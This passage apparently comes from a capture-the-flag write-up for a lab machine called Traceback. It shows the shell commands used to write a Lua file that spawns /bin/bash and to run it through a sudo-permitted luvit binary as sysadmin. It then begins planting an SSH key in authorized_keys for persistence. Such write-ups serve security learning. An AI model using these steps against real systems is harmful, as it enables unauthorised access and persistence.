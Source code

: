 We just need to insert code to run a bash shell in a .lua file, and then run the binary as sysadmin since we do not need a password

``` bash
$ echo "require('os');" > root.lua
$ echo "os.execute('/bin/bash');" >> root.lua
```
![](Traceback/rootlua.png)

Now we just run the binary as sysadmin and we get a shell
``` bash
$ sudo -u sysadmin /home/sysadmin/luvit root.lua
```
![](Traceback/sysadminshell.png)

Now just get the user flag
![](Traceback/userflag.png)

## PrivEsc

### Switching to SSH

Before trying to escalate our privileges, we should switch to SSH
To do this, we can just generate some ssh keys in our machine and add the .pub key to the authorized_keys in /home/sysadmin/.ssh/authorized_keys

First generate the keys in our local machine